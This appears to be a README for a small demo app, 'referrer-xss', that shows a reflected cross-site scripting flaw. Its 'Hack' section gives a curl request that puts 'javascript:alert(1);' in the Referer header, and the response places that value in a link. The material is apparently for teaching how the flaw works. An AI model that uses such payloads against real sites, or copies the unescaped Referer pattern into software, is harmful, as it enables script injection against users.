 # referrer-xss

## Start
```
$ mvn clean spring-boot:run
```

## Hack
```
$ curl -s 'http://localhost:8080/' -H 'Referer: javascript:alert(1);'
<!DOCTYPE HTML>
<html>


<body>
    Link:
    <a href="javascript:alert(1);">back</a>
</body>

</html>
```
